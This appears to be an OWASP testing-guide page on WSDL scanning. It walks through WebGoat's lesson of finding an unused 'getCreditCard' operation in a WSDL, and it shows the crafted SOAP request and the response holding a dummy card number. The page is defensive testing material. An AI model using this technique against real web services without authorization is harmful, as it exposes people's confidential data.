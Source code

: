 ## Brief Summary

Once the WSDL is identified, we can test that entry point.

## Description of the Issue

Check the WSDL of the web service to find the entry points and try to
invoke an operation that is not used in a standard SOAP Request. Ensure
that the WS doesn’t give you some confidential information.

## Black Box testing and example

Given the Standard SOAP message that the Web services supplier waits for
the Web services consumer, you can craft a particular message that
invoke some hidden operations.

**Example:**

A good example is WebGoat 5.0 WSDL Scanning lesson. The following is a
screenshot from that lesson:

<center>

![Image:WSDLWebGoat.png](WSDLWebGoat.png "Image:WSDLWebGoat.png")

</center>


Here we have an interface that invokes a Web Service using only
FirstName, LastName, and Login Count as parameters.
If you look at the relative WSDL you will find:

`...`
<wsdl:portType name="WSDLScanning">
<wsdl:operation name="'''getFirstName'''" parameterOrder="id">
<wsdl:input message="impl:getFirstNameRequest" name="getFirstNameRequest"/>
<wsdl:output message="impl:getFirstNameResponse" name="getFirstNameResponse"/>

</wsdl:operation>
<wsdl:operation name="'''getLastName'''" parameterOrder="id">
<wsdl:input message="impl:getLastNameRequest" name="getLastNameRequest"/>
<wsdl:output message="impl:getLastNameResponse" name="getLastNameResponse"/>
</wsdl:operation>

<wsdl:operation name="'''getCreditCard'''" parameterOrder="id">
<wsdl:input message="impl:getCreditCardRequest" name="getCreditCardRequest"/>
<wsdl:output message="impl:getCreditCardResponse" name="getCreditCardResponse"/>
</wsdl:operation>

<wsdl:operation name="'''getLoginCount'''" parameterOrder="id">
<wsdl:input message="impl:getLoginCountRequest" name="getLoginCountRequest"/>
<wsdl:output message="impl:getLoginCountResponse" name="getLoginCountResponse"/>
</wsdl:operation>
</wsdl:portType>
`...`

We find four operations and not only three. Using the WebScarab Web
Service plugin, we can craft a SOAP Request to get the Credit Card given
a specific ID.

<center>

![Image:WSDLWebScarab.png](WSDLWebScarab.png "Image:WSDLWebScarab.png")

</center>

The SOAP Request resulting from this request is:

`POST `<http://localhost:80/WebGoat/services/SoapRequest>` HTTP/1.0`
`Accept: application/soap+xml, application/dime, multipart/related, text/*`
`Host: localhost:80`
`Content-Type: text/xml; charset=utf-8`
`SOAPAction: ""`
`Content-length: 576`
`Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=`

<?xml version='1.0' encoding='UTF-8'?>

<wsns0:Envelope
   xmlns:wsns1='http://www.w3.org/2001/XMLSchema-instance'
   xmlns:xsd='http://www.w3.org/2001/XMLSchema'
   xmlns:wsns0='http://schemas.xmlsoap.org/soap/envelope/'>
`  `<wsns0:Body
     wsns0:encodingStyle='http://schemas.xmlsoap.org/soap/encoding/'>
`    <wsns2:`**`getCreditCard`**
`          xmlns:wsns2='`<http://lessons.webgoat.owasp.org>`'>`
`      `<id xsi:type='xsd:int'
           xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
       >**`101`**</id>
`    `</wsns2:getCreditCard>
`  `</wsns0:Body>
</wsns0:Envelope>

And the SOAP Response with the credit card number (987654321) is:

`HTTP/1.1 200 OK`
`Server: Apache-Coyote/1.1`
`Content-Type: text/xml;charset=utf-8`
`Date: Wed, 28 Mar 2007 10:18:12 GMT`
`Connection: close`

<?xml version="1.0" encoding="utf-8"?>

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">

<soapenv:Body>
<ns1:getCreditCardResponse soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"  xmlns:ns1="http://lessons.webgoat.owasp.org">
<getCreditCardReturn xsi:type="xsd:string">**`987654321`**</getCreditCardReturn></ns1:getCreditCardResponse>
</soapenv:Body>
</soapenv:Envelope>



**WSDigger**
WSDigger is a free open source tool to automate web services security
testing.

With this tool we can test our web services, interacting with them
through a simple interface, to enter search queries and invoke web
services dynamically, without writing code.
When we interact with the web service, malicious data has been entered
into WSDigger, and the web service method must be invoked by clicking on
the invoke button.

<center>

![Image:wsdigger_part.jpg](wsdigger_part.jpg
"Image:wsdigger_part.jpg")

</center>



**Result expected:**
The tester should include full details of where the web service
application permits access to an operation that is not used during
normal SOAP messages and that provides access to confidential data.

## References

**Whitepapers**
\* W3Schools schema introduction -
<http://www.w3schools.com/schema/schema_intro.asp>
**Tools**
\*[OWASP WebScarab](OWASP_WebScarab_Project "wikilink"): Web Services
plugin

  - Foundstone WSDigger:
    <http://www.foundstone.com/us/resources/proddesc/wsdigger.htm>